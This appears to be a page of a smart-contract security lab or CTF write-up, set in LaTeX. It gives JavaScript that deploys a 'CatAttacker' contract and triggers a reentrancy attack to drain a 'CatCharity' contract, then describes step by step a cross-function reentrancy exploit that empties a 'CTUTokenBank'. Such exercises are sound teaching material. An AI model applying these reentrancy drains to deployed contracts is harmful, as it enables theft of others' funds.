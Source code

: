 \documentclass[12pt]{article}
\begin{document}
\noindent
JavaScript code to start the attack:

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// 1) The player deploys the Attacker contract
catAttacker = await (await ethers.getContractFactory("CatAttacker", deployer))
       .deploy(catCharity.target);

// 2) The player calls `attack()` with a small donation to set up reentrancy.
//    We'll donate 0.5 ETH.
await catAttacker.connect(player).attack({ value: 5n * 10n ** 17n });
// By the end of this transaction, the attacker contract's fallback
// will keep calling `claimRefund()` in a loop until the charity is drained.
\end{verbatim}
\end{minipage}

\subsection*{Task 2: CTU Token Bank}

In this task, the objective is to exploit a cross-function reentrancy vulnerability in the \texttt{CTUTokenBank} contract. Here's how the exploit works:
\begin{enumerate}
    \item The attacker deposits Ether into the \texttt{CTUTokenBank}, which increases their balance in the contract.
    \item The attacker then calls the \texttt{withdrawEther} function, which is protected by a reentrancy lock. However, while the lock is active, the attacker exploits a function that allows them to buy CTU Tokens (\texttt{buyTokens}) using their previous balance.
    \item The attacker repeats this process, buying more tokens and withdrawing Ether until they have drained the bank of its Ether balance.
    \item Finally, the attacker withdraws all remaining funds and transfers the stolen Ether to themselves.
\end{enumerate}
\end{document}
